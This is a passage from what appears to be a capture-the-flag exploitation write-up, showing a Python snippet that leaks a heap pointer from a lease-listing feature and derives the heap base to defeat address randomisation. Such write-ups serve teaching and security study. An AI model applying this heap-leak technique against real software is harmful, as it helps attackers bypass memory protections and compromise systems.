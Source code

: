 <p align="middle" float="left">
  <img src="writeup/exp7.png" style="width: 80%; border-radius: 0%;" />
</p>

This means we can now leak a heap address by just listing all the leases, and parse the `clientId` from the output, filtering the real lease (`id = X` in the drawing), then calculate heap base accordingly.

```python
heap_leak = u64(list().split(f"Lease {id} | client id ".encode())[1][8:16])
print(f"[+] heap leak: {hex(heap_leak)}")

heap_base = heap_leak & 0xffffffffffff0000
print(f"[+] heap base: {hex(heap_base)}")
```

<p align="middle" float="left">
  <img src="writeup/exp8.png" style="width: 80%; border-radius: 0%;" />
</p>
